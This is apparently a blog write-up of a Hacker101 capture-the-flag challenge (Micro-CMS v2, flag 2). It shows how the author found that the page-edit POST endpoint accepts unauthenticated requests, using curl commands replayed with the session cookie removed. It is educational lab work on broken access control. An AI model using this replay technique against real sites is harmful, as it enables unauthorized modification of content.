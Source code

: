 ```yaml
---
title: Hacker 101 CTF Micro-CMS v2 - Flag 2
published: true
---
```


Following on from [flag 1](https://ruddles.github.io/Hacker101-CTF-Micro-CMS-v2-flag-1); this is a writeup of flag 2 in [Hacker 101 CTF](https://ctf.hacker101.com/) Micro-CMS v2. If you're looking to follow along then I assume you're all logged in and have hit Go on the challenge.

# Finding a vulnerability

After completing flag one I spent some time clicking around mapping out the site (that didn't take long) and doing some basic dir busting to see if I could find anything interesting. Long story short, I didn't find anything of note, so back to looking at the obvious pages.

Digging around in the markdown section to see if there are any injection points I could attack (there's a good post on some attack vectors [here](https://medium.com/taptuit/exploiting-xss-via-markdown-72a61e774bf8)), it looks like there's fairly good input sanitisation now. Another dead end.

So, going back to clicking around the site I had a thought. We can see the `GET` requests are protected with a login page, what about the `POST` requests? There's 2 on the site:

- Creating a page
- Editing a page.

# Posting to Create

Usually I'd do something like this with burp suit, however I'm currently trying out kali on WSL2, so until later this year there's no easy way to get UI up and running. Instead I'm browsing in windows and using the tools in the WSL2 instance. So no burp, however the network tab in chome dev tools should do it.

The first thing to do is to log in (see my previous post on how to do this) and navigate to the create page at `/page/create/`. Open the dev tools in chrome (`F12`) and go to the network tab. I usually tick the "Preserve log" option at the top so redirects don't wipe the results out. Finally fill in some details and submit the page.

Now we have a payload we can right click on the post in the network tab and select "Copy as cURL (bash)"

![Create page]({{ site.url }}/assets/post-images/h101-cms-v2/CreatePage.png)

Now I tend to paste this into a text editor (I use vscode for everything) to make editing a bit easier.

This request is of course logged in, and we want to test if the same request still worked logged out. All we need to do is delete the line starting `-H 'Cookie:` so we're no longer logged in on the request and paste it into the terminal and hit enter:

```bash
curl 'http://35.190.155.168/90bf00b6e6/page/create' \
  -H 'Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Origin: http://35.190.155.168' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Sec-GPC: 1' \
  -H 'Referer: http://35.190.155.168/90bf00b6e6/page/create' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw 'title=Test&body=Something+in+here' \
  --compressed \
  --insecure
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/login">/login</a>.  If not click the link.%
```

Nope, that's protected. Moving on....

# Editing a page

Just like before: we're logged in, create the request, copy it, remove the cookie line and paste it into the terminal:

```bash
curl 'http://35.190.155.168/bf98748dfa/page/edit/4' \
  -H 'Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Origin: http://35.190.155.168' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Sec-GPC: 1' \
  -H 'Referer: http://35.190.155.168/bf98748dfa/page/edit/4' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw 'title=test&body=something+else+in+here' \
  --compressed \
  --insecure
^FLAG^FLAG_HASH_HERE$FLAG$%
```

And that gives us a flag. Looks like the edit page wasn't correctly protected. One more flag to go on this challenge.

We can find details on [flag 3 here](https://ruddles.github.io/Hacker101-CTF-Micro-CMS-v2-flag-3)

Any comments or suggestions? Chat with me on [twitter](https://twitter.com/RuddlesDev)
